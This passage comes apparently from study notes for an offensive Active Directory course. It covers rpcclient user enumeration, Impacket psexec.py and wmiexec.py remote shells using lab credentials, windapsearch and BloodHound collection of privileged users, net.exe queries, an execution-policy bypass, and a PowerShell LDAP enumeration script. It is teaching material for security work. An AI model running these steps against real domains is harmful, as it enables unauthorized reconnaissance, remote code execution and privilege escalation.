The above will provide you with a bound connection, and you should be greeted with a new prompt to start unleashing the power of rpcclient.

#### RID

While looking at users in rpcclient, you may notice a field called ```rid:``` beside each user. A Relative Identifier is a unique identifier utilized by Windows to track and identify objects.

> [!NOTE]
> When an object is created within a domain, the SID will be combined with a RID to make a unique value used to represent the object. So a domain user with the SID of ```S-1-5-21-3842939050-3880317879-2865463114``` and a ```RID:[0x457]```, will have a full user SID of: ```S-1-5-21-3842939050-3880317879-2865463114-1111```.

However, there are accounts that you will notice that have the same RID regardless of what host you are on. Accounts like the built-in Administrator for a domain will have a RID:[0x1f4], which, when converted to a decimal value, equals 500. The built-in Administrator account will always have this value.

Since this value is unique to an object, you can use it to enumerate further information about it from the domain.

```bash
rpcclient $> queryuser 0x457

        User Name   :   htb-student
        Full Name   :   Htb Student
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 02 Mar 2022 15:34:32 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Wed, 27 Oct 2021 12:26:52 EDT
        Password can change Time :      Thu, 28 Oct 2021 12:26:52 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000010
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000001d
        padding1[0..7]...
        logon_hrs[0..21]...
```

#### enumdomusers

When you searched for information using the ```queryuser``` command against an RID, RPC returned the user information. This wasn't hard since you already knew the RID for the user. If you wished to enumerate all users to gather the RIDs for more than just one, you would use the following:

```bash
rpcclient $> enumdomusers

user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
user:[avazquez] rid:[0x458]
user:[pfalcon] rid:[0x459]
user:[fanthony] rid:[0x45a]
user:[wdillard] rid:[0x45b]
user:[lbradford] rid:[0x45c]
user:[sgage] rid:[0x45d]
user:[asanchez] rid:[0x45e]
user:[dbranch] rid:[0x45f]
user:[ccruz] rid:[0x460]
user:[njohnson] rid:[0x461]
user:[mholliday] rid:[0x462]

<SNIP>  
```

Using it in this manner will print out all domain users by name and RID. Your enumeration can go into great detail utilizing rpcclient. You could even start performing actions such as editing users and groups or adding your own into the domain.

### Impacket Toolkit

Impacket is a versatile toolkit that provides you with many different ways to enumerate, interact, and exploit Windows protocols and find the information you need using Pyhton. The tool is actively maintained and has many contributors, especially when new attack techniques arise.

#### psexec.py

One of the most useful tools in the Impacket suite is psexec.py. It's a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

To connect to a host with psexec.py, you need credentials for a user with local administrator privileges.

```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```

Once you execute the psexec module, it drops you into the system32 directory on the target host.

#### wmiexec.py

... utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user you connected with. This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern AV and EDR systems.

```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: "A new process has been created", they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation.

### Windapsearch

... is another handy Python script you can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries.

```bash
d41y@htb[/htb]$ windapsearch.py -h

usage: windapsearch.py [-h] [-d DOMAIN] [--dc-ip DC_IP] [-u USER]
                       [-p PASSWORD] [--functionality] [-G] [-U] [-C]
                       [-m GROUP_NAME] [--da] [--admin-objects] [--user-spns]
                       [--unconstrained-users] [--unconstrained-computers]
                       [--gpos] [-s SEARCH_TERM] [-l DN]
                       [--custom CUSTOM_FILTER] [-r] [--attrs ATTRS] [--full]
                       [-o output_dir]

Script to perform Windows domain enumeration through LDAP queries to a Domain
Controller

optional arguments:
  -h, --help            show this help message and exit

Domain Options:
  -d DOMAIN, --domain DOMAIN
                        The FQDN of the domain (e.g. 'lab.example.com'). Only
                        needed if DC-IP not provided
  --dc-ip DC_IP         The IP address of a domain controller

Bind Options:
  Specify bind account. If not specified, anonymous bind will be attempted

  -u USER, --user USER  The full username with domain to bind with (e.g.
                        'ropnop@lab.example.com' or 'LAB\ropnop'
  -p PASSWORD, --password PASSWORD
                        Password to use. If not specified, will be prompted
                        for

Enumeration Options:
  Data to enumerate from LDAP

  --functionality       Enumerate Domain Functionality level. Possible through
                        anonymous bind
  -G, --groups          Enumerate all AD Groups
  -U, --users           Enumerate all AD Users
  -PU, --privileged-users
                        Enumerate All privileged AD Users. Performs recursive
                        lookups for nested members.
  -C, --computers       Enumerate all AD Computers

  <SNIP>
```

You have several options with Windapsearch to perform standard enumeration and more detailed enumeration. The ```--da``` option and the ```-PU``` options. The ```-PU``` option is interesting because it will perform a recursive search for users with nested group membership.

#### Domain Admins

```bash
d41y@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da

[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 u:INLANEFREIGHT\forend
[+] Attempting to enumerate all Domain Admins
[+] Using DN: CN=Domain Admins,CN=Users.CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+]	Found 28 Domain Admins:

cn: Administrator
userPrincipalName: administrator@inlanefreight.local

cn: lab_adm

cn: Matthew Morgan
userPrincipalName: mmorgan@inlanefreight.local

<SNIP>
```

From the results in the shell above, you can see that it enumerated 28 users from the Domain Admin group. Take note of a few users you have already seen before and may even have a hash or cleartext password like wley, svc_qualys, and lab_adm.

#### Privileged Users

To identify more potential users, you can run the tool with ```-PU``` flag and check for users with elevated privileges that may have gone unnoticed. This is a great check for reporting since it will most likely inform the customer of users with excess privileges from nested group membership.

```bash
d41y@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU

[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]     ...success! Binded as:
[+]      u:INLANEFREIGHT\forend
[+] Attempting to enumerate all AD privileged users
[+] Using DN: CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+]     Found 28 nested users for group Domain Admins:

cn: Administrator
userPrincipalName: administrator@inlanefreight.local

cn: lab_adm

cn: Angela Dunn
userPrincipalName: adunn@inlanefreight.local

cn: Matthew Morgan
userPrincipalName: mmorgan@inlanefreight.local

cn: Dorothy Click
userPrincipalName: dclick@inlanefreight.local

<SNIP>

[+] Using DN: CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+]     Found 3 nested users for group Enterprise Admins:

cn: Administrator
userPrincipalName: administrator@inlanefreight.local

cn: lab_adm

cn: Sharepoint Admin
userPrincipalName: sp-admin@INLANEFREIGHT.LOCAL

<SNIP>
```

You'll notice that it performed mutations against common elevated group names in different languages. This output gives an example of the dangers of nested group membership, and this will become more evident when you work with BloodHound graphics to visualize it.

### Bloodhound.py

Once you have domain credentials, you can run the [Bloodhound.py](https://github.com/fox-it/BloodHound.py) BloodHound ingestor from your Linux attack host. The tool uses graph theory to visually represent relationships and uncover attack paths that would have been difficult, or even impossible to detect with other tools. The tool consists of two parts: the [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) collector written in C# for use on Windows systems, and the BloodHound GUI tool which allows you to upload collected data in the form of JSON files. Once uploaded, you can run various pre-built queries or write custom queries using Cypher language. The tool collects data from AD such as users, groups, computers, group membership, GPOs, ACLs, domain trusts, local admin access, user sessions, computer and user properties, RDP access, WinRM access, etc.

Running bloodhound-python -h from your Linux attack host will show you the options available.

```bash
d41y@htb[/htb]$ bloodhound-python -h

usage: bloodhound-python [-h] [-c COLLECTIONMETHOD] [-u USERNAME]
                         [-p PASSWORD] [-k] [--hashes HASHES] [-ns NAMESERVER]
                         [--dns-tcp] [--dns-timeout DNS_TIMEOUT] [-d DOMAIN]
                         [-dc HOST] [-gc HOST] [-w WORKERS] [-v]
                         [--disable-pooling] [--disable-autogc] [--zip]

Python based ingestor for BloodHound
For help or reporting issues, visit https://github.com/Fox-IT/BloodHound.py

optional arguments:
  -h, --help            show this help message and exit
  -c COLLECTIONMETHOD, --collectionmethod COLLECTIONMETHOD
                        Which information to collect. Supported: Group,
                        LocalAdmin, Session, Trusts, Default (all previous),
                        DCOnly (no computer connections), DCOM, RDP,PSRemote,
                        LoggedOn, ObjectProps, ACL, All (all except LoggedOn).
                        You can specify more than one by separating them with
                        a comma. (default: Default)
  -u USERNAME, --username USERNAME
                        Username. Format: username[@domain]; If the domain is
                        unspecified, the current domain is used.
  -p PASSWORD, --password PASSWORD
                        Password

  <SNIP>
```

As you can see the tool accepts various collection methods with the ```-c``` or ```--collectionmethod``` flag. You can retrieve specific data such as user sessions, users and groups, object properties, ACLS, or select all to gather as much data as possible.

#### Executing

```bash
d41y@htb[/htb]$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 564 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 2951 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers

<SNIP>
```

The command above executed Bloodhound.py with the user forend. You specified your nameserver as the DC with the ```-ns``` flag and the domain with the ```-d``` flag. The ```-c all``` flag told the tool to run all checks. Once the script finishes, you will see the output files in the current working directory in the format of ```<date_object.json>```.

```bash
d41y@htb[/htb]$ ls

20220307163102_computers.json  20220307163102_domains.json  20220307163102_groups.json  20220307163102_users.json  
```

#### Uploading the Zip File

You could then type ```sudo neo4j start``` to start the neo4j service, firing up the databaseeeee you'll load the data into and also run Cypher queries against.

Next, you can type ```bloodhound``` from your Linux attack host when logged in and upload the data.

Once all of the above is done, you should have the BloodHound GUI tool loaded with a blank slate. Now you need to upload the data. You can either upload each JSON file one by one or zip them first and upload the Zip file.

Now that the data is loaded, you can use the Analysis tab to run queries against the database. These queries can be custom and specific to what you decide using [custom Cypher queries](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/).

## Credentialed Enum - from Windows

### net

To start gathering user information, you will use `net.exe`, which is installed by default on all Windows OS. More specifically, you will use the `net user` sub-command. While you can use this tool to enumerate local accounts on the machine, you'll instead use `/domain` to print out the users in the domain.

```
C:\Users\stephanie>net user /domain
The request will be processed at a domain controller for domain corp.com.

User accounts for \\DC1.corp.com

-------------------------------------------------------------------------------
Administrator            dave                     Guest
iis_service              jeff                     jeffadmin
jen                      krbtgt                   pete
stephanie
The command completed successfully.
```

The output from this command will vary depending on the size of the organization. Armed with a list of users, you can now query information about individual users.

Administrators often tend to add prefixes or suffixes to usernames that identify accounts by their function. Based on the output above, you should check out the `jeffadmin` user because it might be an administrative account.

```
C:\Users\stephanie>net user jeffadmin /domain
The request will be processed at a domain controller for domain corp.com.

User name                    jeffadmin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/2/2022 4:26:48 PM
Password expires             Never
Password changeable          9/3/2022 4:26:48 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/20/2022 1:36:09 AM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

According to the output, `jeffadmin` is part of the `Domain Admins`  group, which is something you should take note of. If you manage to compromise this account, you'll essentially elevate yourself to administrator.

You can also use `net.exe` to enumerate groups in the domain with `net group`:

```
C:\Users\stephanie>net group /domain
The request will be processed at a domain controller for domain corp.com.

Group Accounts for \\DC1.corp.com

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*Debug
*Development Department
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Management Department
*Protected Users
*Read-only Domain Controllers
*Sales Department
*Schema Admins
The command completed successfully.
```

You'll again use `net.exe` to enumerate the group members, this time focusing on the `Sales Department` group:

```
PS C:\Tools> net group "Sales Department" /domain
The request will be processed at a domain controller for domain corp.com.

Group name     Sales Department
Comment

Members

-------------------------------------------------------------------------------
pete                     stephanie
The command completed successfully.
```

### PowerShell and .NET Classes

There are several tools you can use to enumerate AD. PowerShell cmdlets like `Get-ADUser` work well but they are only installed by default on DCs as part of the [Remote Server Administrative Tools](https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) (_RSAT_). RSAT is very rarely present on clients in a domain, and you must have administrative privileges to install them.

In the Microsoft .NET classes related to AD, you find the `System.DirectoryServices.ActiveDirectory` namespace. While there are a few classes to choose from here, you'll focus on the Domain Class. It specifically contains a reference to the `PdcRoleOwner` in the properties, which is exactly what you need. By checking the methods, you find a method called `GetCurrentDomain()`, which will return the domain object for the current user.

To invoke the Domain Class and the `GetCurrentDomain` method, you'll run the following command in PowerShell:

```powershell
PS C:\Users\stephanie> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

Forest                  : corp.com
DomainControllers       : {DC1.corp.com}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner        : DC1.corp.com
RidRoleOwner            : DC1.corp.com
InfrastructureRoleOwner : DC1.corp.com
Name                  	: corp.com
```

The output revels the `PdcRoleOwner` property, which in this case is `DC01.corp.com`. While you can certainly add this hostname directly into your script as part of the LDAP path, you want to automate the process so you can also use this script in the future engagements.

First, you'll create a variable that will store the domain object, then you will print the variable so you can verify that it still works within your script:

```powershell
# Store the domain object in the $domainObj variable
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

# Print the variable
$domainObj
```

To run the script, you must bypass the execution policy, which was designed to keep you from accidentally running PowerShell scripts.

```powershell
PS C:\Users\stephanie> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\stephanie>
```

Now run the script and verify that it prints the domain object:

```powershell
PS C:\Users\stephanie> .\enumeration.ps1

Forest                  : corp.com
DomainControllers       : {DC1.corp.com}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : DC1.corp.com
RidRoleOwner            : DC1.corp.com
InfrastructureRoleOwner : DC1.corp.com
Name                    : corp.com
```

Your `domainObj` variable now holds the information about the domain object. Although this print statement isn't required, it's a nice way to verify that your command and the variable worked as intended.

Since the hostname in the `PdcRoleOwner` property is required for your LDAP path, you can extract the name directly from the domain object. In case you need more information from the domain object later in your script, you will keep the `$domainObj` for the time being and create a new variable called `$PDC`, which will extract the value from the `PdcRoleOwner` property held in your `$domainObj` variable:

```powershell
# Store the domain object in the $domainObj variable
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

# Store the PdcRoleOwner name to the $PDC variable
$PDC = $domainObj.PdcRoleOwner.Name

# Print the $PDC variable
$PDC
```

Running the script:

```powershell
PS C:\Users\stephanie> .\enumeration.ps1
DC1.corp.com
```

While you can also get the DN for the domain via the domain object, it does not follow the naming standard required for LDAP. In your example, you know that the base domain is `corp.com` and the DN would in fact be `DN=corp,DC.com`. In this instance, you could grab `corp.com` from the `Name` property in the domain object and tell PowerShell to break it up and add the required `DC=` parameter. However, there is an easier way of doing it, which will also make sure you are obtaining the correct DN.

You can use ADSI directly in PowerShell to retrieve the DN. You'll use two single quotes to indicate that the search starts at the top of the AD hierarchy:

```powershell
PS C:\Users\stephanie> ([adsi]'').distinguishedName
DC=corp,DC=com
```

This returns the DN in proper format for the LDAP path.

Now you can add a new variable in your script that will store the DN for the domain. To make sure the script still works, you'll add a print statement and print the contents of your new variable:

```powershell
# Store the domain object in the $domainObj variable
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

# Store the PdcRoleOwner name to the $PDC variable
$PDC = $domainObj.PdcRoleOwner.Name

# Store the Distinguished Name variable into the $DN variable
$DN = ([adsi]'').distinguishedName

# Print the $DN variable
$DN
```

Running it:

```powershell
PS C:\Users\stephanie> .\enumeration.ps1
DC=corp,DC=com
```

At this point, you are dynamically obtaining the Hostname and the DN with your script. Now you must assemble the pieces to build the full LDAP path. To do this, you'll add a new `$LDAP` variable to your script that will contain the `$PDC` and `$DN` variables, prefixed with `LDAP://`.

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"
$LDAP
```

Running it:

```powershell
PS C:\Users\stephanie> .\enumeration.ps1
LDAP://DC1.corp.com/DC=corp,DC=com
```

To now build in some search functionality by using two .NET classes that are located in the `System.DirectoryServices` namespace, more specifically the `DirectoryEntry` and `DirectorySearcher` classes.

The `DirectoryEntry` class encapsulates an object in the AD service hierarchy. In your case, you want to search the very top of the AD hierarchy, so you will provide the obtained LDAP path to the `DirectoryEntry` class.

The `DirectorySearcher` class performs queries against AD using LDAP. When creating an instance of `DirectorySearcher`, you must specify the AD service you want to query in the form of the `SearchRoot` property. According to Microsoft's documentation, this property indicates where the search begins in the AD hierarchy. Since the `DirectoryEntry` class encapsulates the LDAP path that points to the top of the hierarchy, you will pass that as a variable to `DirectorySearcher`.

The `DirectorySeacher` documentation lists `FindAll()`, which returns a collection of all the entries found in AD.

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.FindAll()
```

Running it:

```powershell
PS C:\Users\stephanie> .\enumeration.ps1

Path
----
LDAP://DC1.corp.com/DC=corp,DC=com
LDAP://DC1.corp.com/CN=Users,DC=corp,DC=com
LDAP://DC1.corp.com/CN=Computers,DC=corp,DC=com
LDAP://DC1.corp.com/OU=Domain Controllers,DC=corp,DC=com
LDAP://DC1.corp.com/CN=System,DC=corp,DC=com
LDAP://DC1.corp.com/CN=LostAndFound,DC=corp,DC=com
LDAP://DC1.corp.com/CN=Infrastructure,DC=corp,DC=com
LDAP://DC1.corp.com/CN=ForeignSecurityPrincipals,DC=corp,DC=com
LDAP://DC1.corp.com/CN=Program Data,DC=corp,DC=com
LDAP://DC1.corp.com/CN=Microsoft,CN=Program Data,DC=corp,DC=com
LDAP://DC1.corp.com/CN=NTDS Quotas,DC=corp,DC=com
LDAP://DC1.corp.com/CN=Managed Service Accounts,DC=corp,DC=com
LDAP://DC1.corp.com/CN=Keys,DC=corp,DC=com
LDAP://DC1.corp.com/CN=WinsockServices,CN=System,DC=corp,DC=com
LDAP://DC1.corp.com/CN=RpcServices,CN=System,DC=corp,DC=com
LDAP://DC1.corp.com/CN=FileLinks,CN=System,DC=corp,DC=com
LDAP://DC1.corp.com/CN=VolumeTable,CN=FileLinks,CN=System,DC=corp,DC=com
LDAP://DC1.corp.com/CN=ObjectMoveTable,CN=FileLinks,CN=System,DC=corp,DC=com
...
```

Filtering the output is rather simple, and there are several ways to do so. One way is to set up a filter that will sift through the `samAccountType` attribute, which is an attribute applied to all user, computer, and group objects.

The official documentation reveals different values of the `samAccountType` attribute, but you'll start with 0x30000000 (_decimal 805306368_), which will enumerate all users in the domain.

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368"
$dirsearcher.FindAll()
```

Running it:

```powershell
PS C:\Users\stephanie> .\enumeration.ps1

Path                                                         Properties
----                                                         ----------
LDAP://DC1.corp.com/CN=Administrator,CN=Users,DC=corp,DC=com {logoncount, codepage, objectcategory, description...}
LDAP://DC1.corp.com/CN=Guest,CN=Users,DC=corp,DC=com         {logoncount, codepage, objectcategory, description...}
LDAP://DC1.corp.com/CN=krbtgt,CN=Users,DC=corp,DC=com        {logoncount, codepage, objectcategory, description...}
LDAP://DC1.corp.com/CN=dave,CN=Users,DC=corp,DC=com          {logoncount, codepage, objectcategory, usnchanged...}
LDAP://DC1.corp.com/CN=stephanie,CN=Users,DC=corp,DC=com     {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=jeff,CN=Users,DC=corp,DC=com          {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=jeffadmin,CN=Users,DC=corp,DC=com     {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=iis_service,CN=Users,DC=corp,DC=com   {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=pete,CN=Users,DC=corp,DC=com          {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=jen,CN=Users,DC=corp,DC=com           {logoncount, codepage, objectcategory, dscorepropagatio
```

When enumerating AD, you are very interested in the attributes of each object, which are stored in the `Properties` field.

Knowing this, you can store the results you receive from your search in a new variable. You'll iterate through each object and print each property on its own line via a nested loop as shown below.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domainObj.PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }

    Write-Host "-------------------------------"
}
```

This script will search through AD and filter the results based on the `samAccountType` of your choosing, then place the results into the new `$result` variable. It will then further filter the results based on two foreach loops. The first loop will extract the objects stored in `$result` and place them into the `$obj` variable. The second loop will extract all the properties for each object and store the information in the `$prop` variable. The script will then print `$prop` and present the output in the terminal.

While the `Write-Host` command is not required for the script to function, it does print a line between each object. This helps make the output somewhat easier to read.

The script will output lots of information, which can be overwhelming depending on the existing number of domain users.

```powershell
PS C:\Users\stephanie> .\enumeration.ps1
...
logoncount                     {173}
codepage                       {0}
objectcategory                 {CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com}
dscorepropagationdata          {9/3/2022 6:25:58 AM, 9/2/2022 11:26:49 PM, 1/1/1601 12:00:00 AM}
usnchanged                     {52775}
instancetype                   {4}
name                           {jeffadmin}
badpasswordtime                {133086594569025897}
pwdlastset                     {133066348088894042}
objectclass                    {top, person, organizationalPerson, user}
badpwdcount                    {0}
samaccounttype                 {805306368}
lastlogontimestamp             {133080434621989766}
usncreated                     {12821}
objectguid                     {14 171 173 158 0 247 44 76 161 53 112 209 139 172 33 163}
memberof                       {CN=Domain Admins,CN=Users,DC=corp,DC=com, CN=Administrators,CN=Builtin,DC=corp,DC=com}
whencreated                    {9/2/2022 11:26:48 PM}
adspath                        {LDAP://DC1.corp.com/CN=jeffadmin,CN=Users,DC=corp,DC=com}
useraccountcontrol             {66048}
cn                             {jeffadmin}
countrycode                    {0}
primarygroupid                 {513}
whenchanged                    {9/19/2022 6:44:22 AM}
lockouttime                    {0}
lastlogon                      {133088312288347545}
distinguishedname              {CN=jeffadmin,CN=Users,DC=corp,DC=com}
admincount                     {1}
samaccountname                 {jeffadmin}
objectsid                      {1 5 0 0 0 0 0 5 21 0 0 0 30 221 116 118 49 27 70 39 209 101 53 106 82 4 0 0}
lastlogoff                     {0}
accountexpires                 {9223372036854775807}
...
```

You can filter based on any property of any object type. In the example below, you have made two changes. First, you have changed the filter to use the `name` property to only show information for `jeffadmin`. Additionally, you have added `.memberof` to the `$prop` variable to only display the groups `jeffadmin` is a member of:

```powershell
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="name=jeffadmin"
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop.memberof
    }

    Write-Host "-------------------------------"
}
```

Running it:

```powershell
PS C:\Users\stephanie> .\enumeration.ps1
CN=Domain Admins,CN=Users,DC=corp,DC=com
CN=Administrators,CN=Builtin,DC=corp,DC=com
```

You can use this script to enumerate any object available to us in AD. However, in the current state, this would require you to make further edits to the script itself based on what you wish to enumerate.

Instead, you can make the script more flexible, allowing you to add the required parameters via the command line. For example, you could have the script accept the `samAccountType` you wish to enumerate as a command line argument.

```powershell
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}
```

At the very top, you declare the function itself with the name of your choosing, in this case `LDAPSearch`. It then dynamically obtains the required LDAP path connection string and adds it to the `$DirectoryEntry` variable.

Afterwards, the `DirectoryEntry` and your `$LDAPQuery` parameter is fed into the `DirectorySearcher`. Finally, the search is run, and the output is added into an array, which is displayed in your terminal depending on your needs.

```powershell
PS C:\Users\stephanie> Import-Module .\function.ps1
```

Within PowerShell, you can now use the `LDAPSearch` command to obtain information from AD. To repeat parts of the user enumeration you did earlier, you can again filter on the specific `samAccountType`:

```powershell
PS C:\Users\stephanie> LDAPSearch -LDAPQuery "(samAccountType=805306368)"

Path                                                         Properties
----                                                         ----------
LDAP://DC1.corp.com/CN=Administrator,CN=Users,DC=corp,DC=com {logoncount, codepage, objectcategory, description...}
LDAP://DC1.corp.com/CN=Guest,CN=Users,DC=corp,DC=com         {logoncount, codepage, objectcategory, description...}
LDAP://DC1.corp.com/CN=krbtgt,CN=Users,DC=corp,DC=com        {logoncount, codepage, objectcategory, description...}
LDAP://DC1.corp.com/CN=dave,CN=Users,DC=corp,DC=com          {logoncount, codepage, objectcategory, usnchanged...}
LDAP://DC1.corp.com/CN=stephanie,CN=Users,DC=corp,DC=com     {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=jeff,CN=Users,DC=corp,DC=com          {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=jeffadmin,CN=Users,DC=corp,DC=com     {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=iis_service,CN=Users,DC=corp,DC=com   {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=pete,CN=Users,DC=corp,DC=com          {logoncount, codepage, objectcategory, dscorepropagatio...
LDAP://DC1.corp.com/CN=jen,CN=Users,DC=corp,DC=com           {logoncount, codepage, objectcategory, dscorepropagatio
```

You can also search directly for an `Object Class`, which is a component of AD that defines the object type.

```powershell
PS C:\Users\stephanie> LDAPSearch -LDAPQuery "(objectclass=group)"

...                                                                                 ----------
LDAP://DC1.corp.com/CN=Read-only Domain Controllers,CN=Users,DC=corp,DC=com            {usnchanged, distinguishedname, grouptype, whencreated...}
LDAP://DC1.corp.com/CN=Enterprise Read-only Domain Controllers,CN=Users,DC=corp,DC=com {iscriticalsystemobject, usnchanged, distinguishedname, grouptype...}
LDAP://DC1.corp.com/CN=Cloneable Domain Controllers,CN=Users,DC=corp,DC=com            {iscriticalsystemobject, usnchanged, distinguishedname, grouptype...}
LDAP://DC1.corp.com/CN=Protected Users,CN=Users,DC=corp,DC=com                         {iscriticalsystemobject, usnchanged, distinguishedname, grouptype...}
LDAP://DC1.corp.com/CN=Key Admins,CN=Users,DC=corp,DC=com                              {iscriticalsystemobject, usnchanged, distinguishedname, grouptype...}
LDAP://DC1.corp.com/CN=Enterprise Key Admins,CN=Users,DC=corp,DC=com                   {iscriticalsystemobject, usnchanged, distinguishedname, grouptype...}
LDAP://DC1.corp.com/CN=DnsAdmins,CN=Users,DC=corp,DC=com                               {usnchanged, distinguishedname, grouptype, whencreated...}
LDAP://DC1.corp.com/CN=DnsUpdateProxy,CN=Users,DC=corp,DC=com                          {usnchanged, distinguishedname, grouptype, whencreated...}
